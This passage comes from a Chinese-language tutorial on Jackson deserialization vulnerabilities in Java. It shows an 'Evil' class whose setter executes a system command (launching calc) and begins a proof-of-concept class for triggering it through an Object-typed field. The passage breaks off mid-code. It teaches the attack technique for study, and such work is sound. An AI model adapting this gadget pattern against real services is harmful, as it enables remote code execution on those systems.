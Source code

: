 运行即可弹出计算器

[![](assets/1701606625-9d05007c0e6fa23f18d68bae9077d9e8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110003252-a0e57aea-7f1d-1.png)

### 属性中有 Object 类时

因为 Object 是任意类型的父类 因此扩大了我们的攻击面 我们只需要在目标服务端中存在的且构造函数或 setter 方法存在漏洞的类即可进行攻击利用 例如 存在一个恶意类 Evil 在其构造函数或者是 setter 方法中存在任意代码执行漏洞

```bash
package jackson;

public class Evil {
    public String cmd;

    public void setCmd(String cmd) {
        this.cmd = cmd;
        try {
            Runtime.getRuntime().exec("calc");
        }
        catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

然后我们将其写到 json 中

```bash
package jackson;

import com.fasterxml.jackson.annotation.JsonTypeId;
import com.fasterxml.jackson.annotation.JsonTypeInfo;

public class Hacker {
    public String skill = "moyu";
}

class Person2{
    public String name;
    public int age;
```